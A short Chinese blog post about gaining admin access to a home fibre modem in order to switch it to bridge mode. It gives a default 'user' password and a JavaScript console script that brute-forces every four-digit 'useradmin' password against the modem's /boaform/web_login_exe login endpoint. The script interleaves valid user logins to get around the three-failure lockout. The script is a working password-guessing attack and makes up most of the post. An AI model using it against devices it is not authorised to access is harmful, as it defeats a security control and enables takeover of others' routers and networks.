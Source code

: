 &emsp;&emsp;最近家里网络有点不稳定，电脑ping个手机能上200ms，在这之前没看过家里的网络拓扑。路由器接在墙上，家里的台式直接接在光猫上，那估计是光猫负责PPPoE拨号了，心想改成桥接试试，让路由器负责拨号可能性能会好点。

#### 获取步骤

1. 光猫有一个`user`账户，密码一般是`12345678`（我google的），如果你知道自己的光猫密码就省略这一步，不知道的话先试试，如果实在不知道，可以试试打电话问运营商。一般输错三次就会强制冷却一分钟，所以要绕过多次试错的冷却机制，没有`user`账户密码的话，后面就无法进行。

2. 浏览器输入光猫后台地址，一般是`192.168.1.1`，不用登录，打开开发者模式，在控制台粘贴以下代码，注意`var web_Password`要改成能成功登录的`user`账户的密码

```javascript
var issucc = 0;
for(i=0; i<10000 && !issucc; i++) {
  var web_Username = 'useradmin';
  var web_Password = (Array(4).join(0)+i).slice(-4);
  var obj = new Object;
  obj.web_login_name = web_Username;
  obj.web_login_password = b64_md5(web_Password);
  var cgipath = "/boaform/";
  var nonedatav = Math.random();
  sendRequest(cgipath+"web_login_exe", obj, function(data) {
    if(data == "success_telecomadmin") {
      alert(web_Password);
      issucc = 1;
    } else {
        console.log(data+": "+web_Password);
    }
  });
  var web_Username = 'user';
  var web_Password = '你的user账户的密码';
  var obj = new Object;
  obj.web_login_name = web_Username;
  obj.web_login_password = b64_md5(web_Password);
  var cgipath = "/boaform/";
  var nonedatav = Math.random();
  sendRequest(cgipath+"web_login_exe", obj, function(data) {
	console.log("skip ban: "+data);
  });
}
```

如图

![](image/getAdminPassword.png)

然后回车等待出现弹窗，即`useradmin`密码，类似于这样

![](image/alert.png)

然后就可以输入密码进入管理员后台了。
